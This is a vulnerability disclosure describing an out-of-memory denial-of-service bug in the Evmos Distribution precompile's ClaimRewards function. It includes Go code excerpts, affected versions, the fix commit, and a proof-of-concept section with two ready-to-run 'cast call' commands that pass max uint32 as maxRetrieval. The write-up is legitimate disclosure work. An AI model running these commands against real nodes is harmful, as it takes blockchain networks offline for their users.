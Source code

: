 # Evmos Distribution precompile denial-of-service

A vulnerability was identified in the evmos Distribution precompile that causes an out-of-memory condition, resulting in a node denial-of-service (DoS). Testing revealed that it was possible to trigger this vulnerability without the need to deploy a smart contract, or hold a balance on the network. At the time of reporting, the following versions were confirmed exploitable:

* Commit [39195bf2](https://github.com/evmos/evmos/commit/39195bf2f0af7892a7f1c30451faadba7f6835d2)
* Release [v18.1.0](https://github.com/evmos/evmos/releases/tag/v18.1.0)

This issue was remediated in commit [cb403bcf](https://github.com/evmos/evmos/commit/cb403bcf2f80327755dc24b5e78ef406a8ec1c68).

## Details

_tldr;_ The `ClaimRewards` function, accessible via the `Distribution` precompile, allows the caller to specify an arbitrary `maxRetrieval` value that is later passed to the staking module's `GetDelegatorValidators` function. `GetDelegatorValidators` directly uses `maxRetrieval` during a call to `make([]types.Validator, maxRetrieve)`, which allocates a significant amount of memory, leading to an irrecoverable out-of-memory issue.

The `Distribution` precompile makes a `ClaimRewards` function available, allowing a delegator to claim rewards from multiple validators. It accepts two arguments: the delegator address (`delegatorAddr`) and the maximum number of validators to retrieve rewards from (`maxRetrieve`). After parsing these arguments from the call's calldata, the staking module's `GetDelegatorValidators` is called. An excerpt of this is shown below.

```golang
func (p Precompile) ClaimRewards(
	ctx sdk.Context,
	origin common.Address,
	contract *vm.Contract,
	stateDB vm.StateDB,
	method *abi.Method,
	args []interface{},
) ([]byte, error) {
    // parse input arguments
	delegatorAddr, maxRetrieve, err := parseClaimRewardsArgs(args)
	if err != nil {
		return nil, err
	}

    // ...

    // call staking module's GetDelegatorValidators with delegator and max retrieve
	validators := p.stakingKeeper.GetDelegatorValidators(ctx, delegatorAddr.Bytes(), maxRetrieve)
	totalCoins := sdk.Coins{}
    // ...
}
```

In the staking module's `GetDelegatorValidators` function, the `maxRetrieve` amount is used directly during a call to `make()`. An excerpt of this is shown below.

```golang
func (k Keeper) GetDelegatorValidators(
	ctx sdk.Context, delegatorAddr sdk.AccAddress, maxRetrieve uint32,
) types.Validators {
    // using unvalidated maxRetrieve directly in make()
	validators := make([]types.Validator, maxRetrieve)

	store := ctx.KVStore(k.storeKey)
	delegatorPrefixKey := types.GetDelegationsKey(delegatorAddr)

	iterator := sdk.KVStorePrefixIterator(store, delegatorPrefixKey) // smallest to largest
	defer iterator.Close()

    // ...
}
```

A malicious actor can call the `Distribution` precompile's `ClaimRewards` with `maxRetrieval = 0xffffffff` (max `uint32`) to allocate a large amount of memory, leading to an out-of-memory exception and therefore a denial of service condition.

## Proof of Concept

To trigger the vulnerability, either one of the following transactions can be made using foundry's `cast` command. Both transactions specify the caller as the delegator address, and max `uint32` as `maxRetrieval`.

```sh
# use the mykey account bundled with the local node setup
cast call --mnemonic "gesture inject test cycle original hollow east ridge hen combine junk child bacon zero hope comfort vacuum milk pitch cage oppose unhappy lunar seat" 0x0000000000000000000000000000000000000801 'claimRewards(address delegatorAddress, uint32 maxRetrieval)' 0x7cb61d4117ae31a12e393a1cfa3bac666481d02e 0xffffffff

# use a different account that has no native token balance
cast call --mnemonic "test test test test test test test test test test test junk" 0x0000000000000000000000000000000000000801 'claimRewards(address delegatorAddress, uint32 maxRetrieval)' 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 0xffffffff
```

## Remediation

This issue was [remediated](https://github.com/evmos/evmos/commit/cb403bcf2f80327755dc24b5e78ef406a8ec1c68) by retrieving the maximum amount of validators from the staking keeper, and restricting `maxRetrieval` to that amount.